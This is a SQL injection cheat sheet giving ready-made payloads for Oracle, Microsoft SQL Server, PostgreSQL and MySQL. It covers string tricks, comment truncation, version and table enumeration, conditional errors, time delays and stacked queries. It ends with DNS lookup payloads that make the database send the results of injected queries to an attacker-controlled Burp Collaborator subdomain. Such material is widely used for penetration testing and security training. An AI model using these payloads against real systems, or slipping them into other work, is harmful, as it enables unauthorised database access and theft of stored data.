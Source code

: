 <h1>SQL injection cheat sheet</h1>

This SQL injection cheat sheet contains examples of useful syntax that we can use to perform a variety of tasks that often arise when performing SQL injection attacks. 

## String concatenation

We can concatenate together multiple strings to make a sigle string.

```
Oracle      'foo'||'bar'

Microsoft   'foo'+'bar'

PostgreSQL  'foo'||'bar'

MySQL       'foo' 'bar' [Note the space between the two strings]
            CONCAT('foo','bar')

```

## Substring

We can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string 'ke'.

```
Oracle      SUBSTR('hacker', 4, 2)

Microsoft   SUBSTRING('hacker', 4, 2)

PostgreSQL  SUBSTRING('hacker', 4, 2)

MySQL       SUBSTRING('hacker', 4, 2)
```

## Comments

We can use comments to truncate a query and remove the portion of the original query taht follows our input.

```
Oracle      --comment

Microsoft   --comment
            /*comment*/
              
PostgreSQL  --comment
            /*comment*/
              
MySQL       #comment
            -- comment [Note the space after the double dash]
            /*comment*/

```

## Database version

We can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

```
Oracle      SELECT banner FROM v$version
            SELECT version FROM v$instance
              
Microsoft   SELECT @@version

PostgreSQL  SELECT version()

MySQL       SELECT @@version
```

## Databse contents

We can list tables that exist in the database, and the columns that those tables contain.

```
Oracle      SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
              
Microsoft   SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
              
PostgreSQL  SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
              
MySQL       SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

```

## Conditinal errors

We can test a single boolean condition and trigger a database error if the condition is true.

```
Oracle      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual

Microsoft   SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END

PostgreSQL  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END

MySQL       SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') 
```

## Batched (or stacked) queries

We can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarly of use in relation to blind vulnerabilites where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

```
Oracle      Does not support batched queries.

Microsoft   QUERY-1-HERE; QUERY-2-HERE

PostgreSQL  QUERY-1-HERE; QUERY-2-HERE

MySQL       Does not support batched queries. 
```

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

```
Oracle      dbms_pipe.receive_message(('a'),10)

Microsoft   WAITFOR DELAY '0:0:10'

PostgreSQL  SELECT pg_sleep(10)

MySQL       SELECT sleep(10)

```

## Conditional time delays

We can test a single boolean condition and trigger a time delay if the condition is true.

```
Oracle      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual

Microsoft   IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'

PostgreSQL  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

MySQL       SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') 
```

## DNS lookup

We can cause the database to perform a DNS lookup to an external domain. To do this, we will need to user Burp Collaborator client to generate a unique Burp Collaborator subdomain that we will use in our attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

```
Oracle      The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
            SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote  SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

            The following technique works on fully patched Oracle installations, but requires elevated privileges:
            SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')

Microsoft   exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'

PostgreSQL  copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'

MySQL       The following techniques work on Windows only:
            LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
            SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```

## DNS lookup with data exfiltration

We can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, we will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that we will use in our attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltred data.

```
Oracle 	SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote  SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

Microsoft 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')

PostgreSQL 	create OR replace function f() returns void as $$
            declare c text;
            declare p text;
            begin
            SELECT into p (SELECT YOUR-QUERY-HERE);
            c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
            execute c;
            END;
            $$ language plpgsql security definer;
            SELECT f();

MySQL 	    The following technique works on Windows only:
            SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```

